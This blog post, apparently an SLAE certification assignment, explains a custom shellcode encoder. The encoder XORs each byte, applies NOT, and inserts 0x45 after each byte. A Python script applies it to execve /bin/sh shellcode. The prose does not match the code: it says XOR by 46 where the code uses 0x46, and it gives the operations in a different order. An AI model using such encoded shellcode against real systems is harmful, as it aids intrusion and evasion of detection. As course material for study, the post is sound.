 ```yaml
---
title: SLAE - Assignment 4 - Custom Insertion Encoder
author: fwinsnes
date: 2021-01-17 13:44:00 +0800
categories: [SLAE]
tags: [assembly, shellcoding]
---
```


#### Introduction

These series of posts starting with the prefix "Assignment" will be created in order to fulfill the requirements of the SLAE certification. Today we are going to have a close 
look at a Custom Encoder. 


The fourth assignment from the seven requires the creation of a Custom Encoder, similar to the one shown in the course as the "Insertion Encoder". This should be written in the 
Assembly language, and converting such into [shellcode](https://es.wikipedia.org/wiki/Shellcode). Moreover, it is required that such is tested later on the C format.

##### The Encoder

As for the encoder itself, I have chosen to concanate the three main techniques regarding encoding during the course, therefore, the encoder obeys the following procedure:

+ XORs every opcode of the shellcode by 46.
+ Performs a NOT operation on every opcode of the shellcode.
+ Inserts an additional 0x45 byte for every opcode.

Having the knowledge of such course of action allows us to understand that the decoder should follow the exact same process but on reverse:

+ Remove the an additional 0x45 byte for every opcode and restore the encoded shellcode.
+ Perform a NOT operation on every opcode of the shellcode.
+ XOR every opcode of the shellcode by 46.

#### The encoder

```term
#!/usr/bin/python

shellcode = (
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\xb0\x0b\xcd\x80"
)

encoded = ""
encoded2 = ""

print 'Encoded shellcode ...'

for x in bytearray(shellcode) :

                                y = ~x^0x46

                                encoded += '\\x'
                                encoded += '%02x' % (y & 0xFF)
                                encoded += '\\x%02x' % 0x45

                                encoded2 += '0x'
                                encoded2 += '%02x,' % (y & 0xFF)
                                encoded2 += '0x%02x,' % 0x45


print '"' + encoded + '"'

```